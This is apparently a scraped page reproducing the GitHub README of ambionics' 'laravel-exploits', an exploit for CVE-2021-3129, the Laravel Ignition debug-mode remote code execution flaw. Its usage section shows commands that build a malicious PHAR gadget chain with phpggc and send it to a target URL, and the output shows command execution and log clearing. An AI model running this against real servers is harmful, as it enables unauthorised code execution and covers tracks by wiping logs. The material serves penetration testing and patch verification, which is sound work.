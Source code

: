 # laravel-exploits

Exploit for CVE-2021-3129

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/ambionics](https://github.com/ambionics) |
| Url      | [https://github.com/ambionics/laravel-exploits](https://github.com/ambionics/laravel-exploits)                                               |
| Stars    | 236                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# laravel-exploits
Exploit for CVE-2021-3129
Details: https://www.ambionics.io/blog/laravel-debug-rce

# Usage

```bash
$ php -d'phar.readonly=0' ./phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system id 
$ ./laravel-ignition-rce.py http://localhost:8000/ /tmp/exploit.phar
Log file: /work/pentest/laravel/laravel/storage/logs/laravel.log
Logs cleared
Successfully converted to PHAR !
Phar deserialized
--------------------------
uid=1000(cf) gid=1000(cf) ...
--------------------------
Logs cleared
```



## Get the content

```
git clone https://github.com/ambionics/laravel-exploits
cd laravel-exploits
```

{% embed url="https://github.com/ambionics/laravel-exploits" %}

<figure><img src="https://avatars.githubusercontent.com/u/29630660?v=4" alt=""><figcaption><p>ambionics</p></figcaption></figure>

